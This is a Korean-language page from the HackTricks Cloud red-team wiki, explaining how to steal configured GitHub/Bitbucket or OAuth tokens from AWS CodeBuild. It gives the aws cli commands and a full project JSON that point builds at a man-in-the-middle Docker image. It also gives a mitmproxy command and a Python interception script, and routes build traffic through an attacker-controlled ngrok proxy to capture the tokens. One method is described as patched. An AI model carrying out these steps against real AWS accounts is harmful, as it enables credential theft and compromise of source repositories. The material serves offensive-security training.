 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Docker Image를 통해

예를 들어 Github에 대한 인증이 계정에 설정되어 있는 것을 발견하면, Codebuild가 프로젝트 빌드를 실행하도록 특정 Docker 이미지를 사용하게 하여 **액세스**(**GH 토큰 또는 OAuth 토큰**)를 **유출**할 수 있습니다.

이 목적을 위해 **새로운 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이 이미지는 **`https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`** 환경 변수를 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로채고 **`SSL_CERT_FILE`**에 지정된 SSL 인증서를 신뢰할 수 있습니다.

1. **자신만의 Docker MitM 이미지 생성 및 업로드**
* 프록시 IP 주소를 설정하고 SSL 인증서를 설정하여 **docker 이미지를 빌드**하는 방법은 repo의 지침을 따르세요.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마세요**.
* **`ngrok`**을 사용하여 `ngrok tcp 4444`와 같이 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지가 빌드되면 **공개 repo**(Dockerhub, ECR...)에 업로드하세요.
2. **환경 설정**
* **새로운 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**하세요.
* 프로젝트가 **이전에 생성된 Docker 이미지**를 사용하도록 설정하세요.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에 MitM 프록시 설정**

* **Github repo**에 명시된 대로 다음과 같은 방법을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy 버전은 9.0.1을 사용**, 버전 10에서는 작동하지 않을 수 있음이 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이 작업은 aws cli에서도 다음과 같이 수행할 수 있습니다

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주간에 AWS에 의해 수정되었습니다 (아마 금요일에). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰을 유출**하거나, OAuth를 통해 권한이 구성된 경우 **코드에 접근하기 위해 사용된 임시 OAuth 토큰을 유출**할 수 있습니다.

* 공격자는 환경 변수를 **http\_proxy** 및 **https\_proxy**로 설정하여 자신의 머신을 가리키도록 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github repo의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 프록시 변수 (http\_proxy 및 https\_proxy)가 가리키는 포트에서 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로, **Build the project**를 클릭하면, **credentials**가 mitm 포트로 **평문**(base64)으로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 기기에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (악용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
